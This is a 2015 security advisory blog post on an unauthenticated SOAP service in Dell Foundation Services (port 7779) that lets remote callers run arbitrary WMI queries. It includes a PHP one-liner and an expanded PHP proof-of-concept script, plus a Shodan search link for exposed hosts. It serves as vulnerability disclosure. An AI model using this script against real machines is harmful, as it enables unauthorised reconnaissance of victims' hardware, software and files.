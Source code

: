 ```yaml
---
layout: post
title: "Security Advisory: Dell Foundation Services Remote Information Disclosure (II)"
date: 2015-12-01
categories:
---
```


*By slipstream/RoL.*

# Overview

Dell Foundation Services (otherwise known by its internal name of "Tribbles") "provides a core set of foundational services facilitating customer serviceability, messaging and support functions".

# Issues

Dell Foundation Services starts an HTTPd that listens on port 7779. The previous service tag leak was fixed by removing the JSONP API.

However, the webservice in question is still available; it is now a SOAP service, and all methods of that webservice can be accessed, not just the ServiceTag method.

One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(string wmiQuery)` - this returns the results of a given Windows Management Instrumentation (WMI) query, enabling access to information about hardware, installed software, running processes, installed services, accessible hard disks, filesystem metadata (filenames, file size, dates) and more.

[WMI](https://msdn.microsoft.com/en-us/library/windows/desktop/aa394582(v=vs.85).aspx) is "the infrastructure for management data and operations on Windows-based operating systems".

[Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.

Quick PHP one-liner proof-of-concept:

````
php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"
````

This can be expanded to:

````
<?php
function wmic($ip,$query) {
	var_dump(dowmic($ip,$query));
}

function dowmic($ip,$query) {
	return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/')));
}

function callApi($ip,$method,$params = array()) {
	return (
		new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/'))
	)->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method));
}

wmic('','');
````

# Affected Versions

3.0.700.0.

# Solution

Uninstallation of Dell Foundation Services will prevent exploitation of the issue. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
